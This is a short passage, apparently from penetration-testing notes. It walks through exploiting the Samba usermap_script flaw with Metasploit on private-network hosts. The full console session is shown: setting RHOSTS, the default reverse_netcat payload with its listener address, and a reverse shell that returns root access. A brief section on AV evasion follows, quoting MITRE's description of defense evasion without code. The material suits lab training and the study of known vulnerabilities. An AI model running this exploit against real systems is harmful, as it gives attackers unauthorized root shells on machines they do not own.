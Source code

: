 

**exploit samba using metasploit `exploit/multi/samba/usermap_script`**

```bash
msf6 > use exploit/multi/samba/usermap_script
[*] No payload configured, defaulting to cmd/unix/reverse_netcat
msf6 exploit(multi/samba/usermap_script) > options 

Module options (exploit/multi/samba/usermap_script):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT   139              yes       The target port (TCP)


Payload options (cmd/unix/reverse_netcat):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.23.2       yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf6 exploit(multi/samba/usermap_script) > set RHOSTS 10.4.29.109
RHOSTS => 10.4.29.109
msf6 exploit(multi/samba/usermap_script) > run

[*] Started reverse TCP handler on 10.10.23.2:4444 
[*] Command shell session 1 opened (10.10.23.2:4444 -> 10.4.29.109:52106 ) at 2024-02-13 23:11:20 +0530

id
uid=0(root) gid=0(root)
```



---

### AV Evasion & Obfuscation

**Defense Evasion**

Defense Evasion consists of techniques that adversaries use to avoid detection throughout their compromise. Techniques used for defense
evasion include uninstalling/disabling security software or obfuscating/encrypting data and scripts. Adversaries also leverage and abuse trusted processes to hide and masquerade their malware. – MITRE
